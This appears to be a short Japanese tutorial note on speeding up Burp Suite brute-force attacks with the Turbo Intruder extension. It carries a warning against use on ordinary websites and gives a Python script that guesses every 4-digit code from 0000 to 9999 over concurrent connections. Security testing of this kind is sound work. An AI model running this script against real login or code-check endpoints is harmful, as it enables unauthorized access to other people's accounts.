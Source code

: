 # Burp Suite のブルートフォース攻撃を高速化

※本内容は一般的な Web サイトに対して実行しないでください

Burp Suite でブルートフォース攻撃をする場合、Intruder で Payload Type を BruteForcer を選択し、攻撃をしかけるが、コミュニティエディションだからか試行速度がかなり遅い(3 秒に 1 リクエスト程度)。

拡張機能である Turbo Intruder をインストールすることで数倍の試行速度を得ることが出来る。  
ただし、GUI の操作だけでなく Python コードを自分で編集する必要があるので、Intruder と比較すると若干難易度は上がる。

- 1. Burp Suite を起動

- 2. Extensions タブを選択し、Turbo Intruder をクリック後、Install ボタン押下
     ![1](https://github.com/pea-sys/Til/assets/49807271/ead574bf-58f7-4824-8d47-9df5e790451c)

- 3. 攻撃用リクエストを選択し、右クリックして Send to turbo intruder を選択

![2](https://github.com/pea-sys/Til/assets/49807271/aa3c238b-9fa0-497b-9312-9c20ddd74efe)

- 4. turbo intruder が起動する。リクエストのパラメータ部分を%s に置き換える。

- 5. コード部分を攻撃パターンに置き換える。  
     engine.queue によりキューイングされたリクエストが攻撃に使用される。  
     ここでは、0 埋め 4 桁のコードに書き換えて攻撃する

[書き換え前]

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```

[書き換え後]

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in range(0,10000):
        engine.queue(target.req, format(word, '04') )


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 200:
        table.add(req)
```

- 6. 攻撃のセットアップが終わったら攻撃します
     ![2](https://github.com/pea-sys/Til/assets/49807271/7f65d6f0-8d87-4cde-90b1-a7879d9e4db7)
